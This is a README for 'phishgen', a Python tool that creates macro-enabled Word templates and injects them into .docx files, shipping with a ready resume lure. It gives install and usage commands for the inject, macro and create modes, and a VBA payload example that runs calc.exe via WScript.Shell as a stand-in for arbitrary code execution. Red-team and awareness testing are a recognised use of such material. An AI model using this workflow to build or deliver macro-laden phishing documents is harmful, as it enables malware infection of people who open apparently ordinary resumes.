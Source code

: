 # Phishing generator
`phishgen` is a python tool designed to create macro files, modify and inject them in existing `.docx` files.  


## Table of Contents

- [Features](#features)
- [Installation](#installation)
- [Usage](#usage)
    - [Inject Mode](#inject-mode)
    - [Macro Mode](#macro-mode)
    - [Create Mode](#create-mode)
- [Examples](#examples)
- [Project Structure](#project-structure)
- [Contributing](#contributing)
- [License](#license)

## Features

- **Inject macros**: Inject macros from a `.dotm` file to a `.docx` document (needs to be created from `.dotx` template).
- **Modify macros**: Replace source code of the `.dotm` file using a provided string or external file.
- **Create documents**: Generate Word documents with predefined configurations (`fulldoc`, `empty`, `full`, `macro`).
- **Cross-platform support**: Everything, except modifying macros is cross-platform. For modifying macro-files you need `Windows` and preinstalled `Word` application.
  
## Installation

```bash
git clone https://github.com/SelfScriptKiddies/phishgen.git
cd phishgen
pip install -e .
```

# Usage
`phishgen` provides three modes:
## Inject mode
In this mode, `phishgen` will inject .dotm macro in .docx file. 
**Important**! .docx file must be created by template (.dotx file). <br>
Example:
```bash
phishgen inject generated_document.docx macro.dotm -o patched_document.docx
```

## Macro mode
**Important!** This mode is available only on `Windows` systems with `Word` application. <br>
Idea is generating .dotm file with provided source code. Source code can be file (`-f` option) or string (`-s` option). 
Default filename will be `macro.dotm` in your current directory. <br>
**Example**: <br>
payload.txt:
```
Dim wsh As Object
Set wsh = CreateObject("WScript.Shell")
wsh.Run "calc.exe"
Set wsh = Nothing
```

```bash
phishgen macro -f payload.txt
```
Also source code as string:
```bash
phishgen macro -s "payload"
```

## Create mode
Just copies some templates from inner folder to provided filepath. <br>
Modes:
- **fulldoc**: copies `.docx` resume, created by template, ready to injection
- **empty**: copies empty `.dotx` pattern. Needed to create `.docx` document with your content.
- **full**: copies `.dotx` pattern of resume from step 1. You can edit this resume as you wish!
- **macro**: copies empty `.dotm`. No source code included
```bash
phishgen create fulldoc -d test_folder/
phishgen create empty -d test_folder/
phishgen create full -d test_folder/
phishgen create macro -d test_folder/
```